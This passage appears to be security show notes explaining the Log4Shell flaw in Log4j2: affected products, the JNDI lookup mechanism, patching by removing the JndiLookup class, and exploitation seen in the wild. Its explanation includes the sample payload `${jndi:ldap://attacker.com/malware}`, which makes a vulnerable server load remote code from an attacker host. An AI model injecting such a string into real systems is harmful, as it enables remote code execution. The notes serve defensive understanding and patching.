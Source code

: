            -   Plus a huge number of other projects:
                -   Elastic Search, LogStash, GrayLog2, Minecraft (client and server)
                    -   Initial reports were this was first seen being exploited in
                        Minecraft
            -   Not to mention:
                -   Apple iCloud, Steam, Samsung Cloud storage and more
    -   What is the vulnerability?
        -   Vuln is in the JNDI (Java Naming and Directory Interface) feature of log4j
        -   JNDI allows Java objects to be referenced externally then loaded and used at runtime
        -   JNDI supports different protocols to fetch classes, including LDAP, even DNS etc
        -   Log4j supports lookups on variables which can encode a JNDI resource
        -   So if you log a variable such as `${jndi:ldap://attacker.com/malware}`
            Log4j will perform the lookup via LDAP to retrieve the Java class at
            that URI and then execute it
        -   Remote code execution attacks don't get any easier than this - esp
            since Java is write once, run anywhere - there is no architectural
            specific issues like with natively comiler languages like C/C++ etc
        -   As such wasn't surprising to see this given the highest possible CVSS
            score of 10.0 by ASF
    -   How widespread is this issue?
        -   As mentioned earlier so many different pieces of software use Log4j
            and have Log4j embedded within them, it is not just sufficient to say
            update your Ubuntu packaged version of log4j - if you are running
            custom / proprietary Java applications they may likely contain their
            own copy of Log4j2 and you may have to go and patch that directly
    -   How to patch manually?
        -   The easiest option would be to get an updated version of the
            application from the original vendor
        -   Failing that, could go looking for all log4j2 jar archives and then
            could extract these (jar's are zips afterall) and remove the
            offending class directly
            (`java/org/apache/logging/log4j/core/lookup/JndiLookup`)
    -   How is it being exploited?
        -   Kids popping Minecraft servers to other adversaries using this for
            more traditional attacks like deploying cryptominers etc - but given
            how widespread this issue is and how much coverage it has gotten it
            is likely everyone and anyone is looking to actively exploit it
-   Expect we will still be hearing about this for a long time - whether due
    to more vulns in Log4j2 but also since there are so many devices running
    Java out there and that likely have Log4j as part of that - could be a
    long tail of devices which take a long time (or even never get patched)
-   Could be the basis of the next Mirai style botnet of compromised devices?
-   In all the drama, it turned out there was a second vuln which could still
    be triggered to cause a least a DoS or possible [information leaking /
    exfiltration](https://www.praetorian.com/blog/log4j-2-15-0-stills-allows-for-exfiltration-of-sensitive-data/) - so a second upstream release `2.16.0` was done - this is now
    in Ubuntu &gt;= 20.04 LTS as well ([USN-5197-1](https://ubuntu.com/security/notices/USN-5197-1))
-   [KnowledgeBase article](https://wiki.ubuntu.com/SecurityTeam/KnowledgeBase/Log4Shell) for this on the Ubuntu wiki too if you want more
    specific information
